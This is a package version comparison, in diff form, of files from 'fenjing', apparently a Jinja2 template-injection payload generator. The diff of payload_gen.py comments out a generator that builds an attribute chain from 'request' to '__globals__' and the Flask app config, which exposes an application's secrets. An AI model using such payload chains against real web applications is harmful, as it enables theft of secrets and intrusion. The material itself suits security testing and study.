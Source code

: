  * *Files identical despite different names*

### Comparing `fenjing-0.4.6/fenjing/form_cracker.py` & `fenjing-0.4.6.1/fenjing/form_cracker.py`

 * *Files identical despite different names*

### Comparing `fenjing-0.4.6/fenjing/full_payload_gen.py` & `fenjing-0.4.6.1/fenjing/full_payload_gen.py`

 * *Files identical despite different names*

### Comparing `fenjing-0.4.6/fenjing/payload_gen.py` & `fenjing-0.4.6.1/fenjing/payload_gen.py`

 * *Files 2% similar despite different names*

```diff
@@ -1215,44 +1215,54 @@
             (ATTRIBUTE, "__dict__"),
             (ITEM, "_TemplateReference__context"),
             (ITEM, "config"),
         )
     ]
 
 
-@req_gen
-def gen_config_request(context):
-    return [
-        (
-            CHAINED_ATTRIBUTE_ITEM,
-            (LITERAL, "request"),
-            (ATTRIBUTE, "application"),
-            (ATTRIBUTE, "__self__"),
-            (ATTRIBUTE, "json_module"),
-            (ATTRIBUTE, "JSONEncoder"),
-            (ATTRIBUTE, "default"),
-            (ATTRIBUTE, "__globals__"),
-            (ITEM, "current_app"),
-            (ATTRIBUTE, "config"),
-        )
-    ]
+# @req_gen
+# def gen_config_request(context):
+#     return [
+#         (
+#             CHAINED_ATTRIBUTE_ITEM,
+#             (LITERAL, "request"),
+#             (ATTRIBUTE, "application"),
+#             (ATTRIBUTE, "__self__"),
+#             (ATTRIBUTE, "json_module"),
+#             (ATTRIBUTE, "JSONEncoder"),
+#             (ATTRIBUTE, "default"),
+#             (ATTRIBUTE, "__globals__"),
+#             (ITEM, "current_app"),
+#             (ATTRIBUTE, "config"),
+#         )
+#     ]
 
 
 # ---
 
 
+# @req_gen
+# def gen_module_os_urlfor(context):
```